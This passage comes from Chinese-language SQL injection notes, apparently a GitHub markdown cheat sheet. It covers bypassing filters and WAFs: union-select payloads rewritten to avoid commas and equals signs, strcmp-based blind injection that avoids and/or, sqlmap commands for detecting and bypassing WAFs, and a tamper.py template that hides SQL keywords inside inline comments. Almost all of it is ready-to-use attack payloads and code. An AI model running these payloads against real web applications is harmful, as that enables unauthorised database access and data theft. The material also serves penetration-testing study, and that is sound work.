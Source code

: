   1' union select 1,2,(select group(table_name) from information_schema.tables where table_schema=database())#
  => 1' union select 1,2,(select group(table_name) from information_schema.tables where table_schema like database())#
  ```

* and和or

  ```
  使用关键字双写、关键字替换、内联注释、多行注释来替代
  ```

* 逗号

  ```
  	1' union select 1,2,3 --+
  => 	1' union select * from (select 1)a join (select 2)b join (select 3)c --+
  ```


###### ⑩过滤掉and和or的盲注

```
index.php?id=strcmp(left((select username from users limit 0,1),1),0x42)#
index.php?id=strcmp(left((select+username+from+users+limit+0,1),1)0x42)#

strcmp()函数，两值相等返回0，小于返回-1，大于返回1

//sql语句为：
select * from users where id=strcmp(left((select username from users limit 0,1),1),0x42);
```

#### (3). Tamper模块

##### a.说明

* sqlmap在**默认情况**下，除了使用**CHAR()**函数**防止出现单引号**，没有对注入的数据进行修改
* 可以使用**--tamper参数对数据做修改**来绕过WAF等设备
* 部分脚本主要使用**正则模块**替换**攻击载荷编码**的方式来尝试绕过WAF

##### b. 用法

```
1. 检测WAF种类
	sqlmap -u [URL] --identify-waf(--check-waf)
2. 绕过WAF
	sqlmap -u [URL] --tamper "模块名"
```

##### c. 模板

* tamper.py文件

```python
from lib.core.enums import PRIORITY
import os
__priority__ = PRIORITY.LOWEST
def dependencies():
    pass
def tamper(payload, **kwargs):
    payload = payload.replace('AND', '/*!%23/*%0aAND*/')
    payload = payload.replace('DATABASE()', 'DATABASE/*$%^a*/()')
    payload = payload.replace('FROM', '/*!%23/*%0afrom*/')
    payload = payload.replace('UNION ALL', 'union/*!99999*/all')
    payload = payload.replace('SESSION_USER()', 'USER()')
    payload = payload.replace('USER()', 'USER/*////*/()')
```